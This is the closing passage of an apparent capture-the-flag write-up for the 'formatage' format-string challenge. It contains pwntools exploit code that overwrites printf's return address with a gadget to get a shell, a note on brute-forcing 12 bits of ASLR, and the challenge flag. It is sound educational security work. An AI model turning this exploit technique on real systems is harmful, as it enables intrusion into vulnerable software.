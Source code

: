 

Now we have to solve a final problem: we have to overwrite the `printf` return address in one shot to overwrite it with a libc pointer (which necessitates 6 bytes overwrite). We just place the needed pointers on the stack, and write words to it to replace the `printf` return address by our gadget address:

```python
# Prepare pointers for whole ret_addr overwrite

ret_addr = env_base - 0x160 # printf return address pointer
write64(env_base + 8*0x10, ret_addr + 2)
write64(env_base + 8*0x11, ret_addr + 4)

FINAL_RET_OFFSET = WHERE_PTR_OFFSET + 0x10 # Offset of the return address parts

target1 = shift_stack_addr & 0xffff
target2 = (shift_stack_addr >> 16) & 0xffff
target3 = (shift_stack_addr >> 32) & 0xffff

fmt = f'%{target1}c%{RET_ADDR_OFFSET}$hn'
fmt += f'%{(target2 - target1) & 0xffff}c%{FINAL_RET_OFFSET}$hn'
fmt += f'%{(target3 - target2) & 0xffff}c%{FINAL_RET_OFFSET + 1}$hn'

r.sendline(fmt)

r.sendline('id')
r.recv()

log.success('Enjoy your shell :)')

r.interactive()
```



The remote exploit takes some time, as we need to bruteforce 12 bits of ASLR to get a valid `printf` return address pointer.



Flag: `FCSC{8f1038be95c111447ed7a77492a7c03d465439119c084cf8d867e2d9b8bafcc4}`



### :checkered_flag: Conclusion

`formatage` was a very cool challenge about format strings, that really helped me to deeply understand the tricks about format string vulnerabilities. Thanks to its creator!